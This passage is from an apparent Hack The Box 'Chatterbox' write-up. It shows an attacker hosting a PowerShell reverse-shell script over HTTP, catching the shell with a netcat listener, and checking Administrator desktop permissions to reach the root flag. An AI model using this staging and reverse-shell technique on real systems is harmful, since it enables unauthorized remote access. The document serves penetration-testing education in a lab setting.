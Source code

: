 



    root@kali# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.74 - - [18/Jun/2018 08:36:35] "GET /Invoke-PowerShellTcp-8082.ps1 HTTP/1.1" 200 -





    root@kali# nc -lnvp 8082
    listening on [any] 8082 ...
    connect to [10.10.14.159] from (UNKNOWN) [10.10.10.74] 49159
    Windows PowerShell running as user Alfred on CHATTERBOX
    Copyright (C) 2015 Microsoft Corporation. All rights reserved.

    PS C:\Windows\system32> whoami
    chatterbox\alfred



## Reading root.txt

I didn't actually get an administrator/system shell on this host, as it
wasn't necessary to read the root flag.

We Alfred, we can access the administrator's desktop, but can't read the
file:



    c:\Users\Administrator\Desktop>dir
    dir
     Volume in drive C has no label.
     Volume Serial Number is 9034-6528

     Directory of c:\Users\Administrator\Desktop

    12/10/2017  07:50 PM    <DIR>          .
    12/10/2017  07:50 PM    <DIR>          ..
    12/10/2017  07:50 PM                32 root.txt
                   1 File(s)             32 bytes
                   2 Dir(s)  18,162,110,464 bytes free

    c:\Users\Administrator\Desktop>type root.txt
    Access is denied.



If we look at the directory for Desktop itself, Alfred actually has
permissions on it:



    C:\Users\Administrator>icacls Desktop
    icacls Desktop
    Desktop NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
            CHATTERBOX\Administrator:(I)(OI)(CI)(F)
            BUILTIN\Administrators:(I)(OI)(CI)(F)
            CHATTERBOX\Alfred:(I)(OI)(CI)(F)
